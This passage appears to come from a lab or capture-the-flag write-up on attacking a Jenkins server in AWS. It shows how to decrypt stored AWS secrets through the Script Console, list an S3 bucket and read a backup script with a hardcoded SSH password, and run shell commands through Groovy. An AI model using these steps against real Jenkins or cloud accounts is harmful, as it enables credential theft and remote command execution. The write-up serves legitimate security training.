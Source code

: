 Let's check `Credentials`, where we see `jenkins-admin` AWS credentials

![](exploit-jenkins-in-the-cloud-4.png)

![](exploit-jenkins-in-the-cloud-5.png)

The key is masked

![](exploit-jenkins-in-the-cloud-6.png)

But if we check the source, we see encrypted value of the AWS secret key

![](exploit-jenkins-in-the-cloud-7.png)


Googling shows that [we can decrypt Jenkins secrets](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml) using `hudson.util.Secret.decrypt()` function in `Script Console`

![](exploit-jenkins-in-the-cloud-8.png)

Authenticate using new credentials
```
└─$ aws sts get-caller-identity                
{
    "UserId": "AIDAWHEOTHRF4VS5ZIW3J",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/jenkins-admin"
}
```

Now, let's check `admin` directory in the bucket we saw earlier
```
└─$ aws s3 ls s3://jenkins-config-load/admin/  
2023-07-10 21:15:33          0 
2024-02-10 03:13:57        115 jenkins-backup.sh
```
If we check the script, we find ssh credentials
```
└─$ aws s3 cp s3://jenkins-config-load/admin/jenkins-backup.sh -
#!/bin/bash

sshpass -p 'VHwecyhrecc3' -P passphrase scp -i dev.pem -r dev@52.203.31.30:/backups/jenkins /backups/
```

But ssh authentication fails, so let's continue. Navigate to `Script Console` and run the script below to find the identity of the user who the Jenkins is running as
```
def proc = "id".execute()
def b = new StringBuffer()
proc.consumeProcessErrorStream(b)
println proc.text
println b.toString()
```
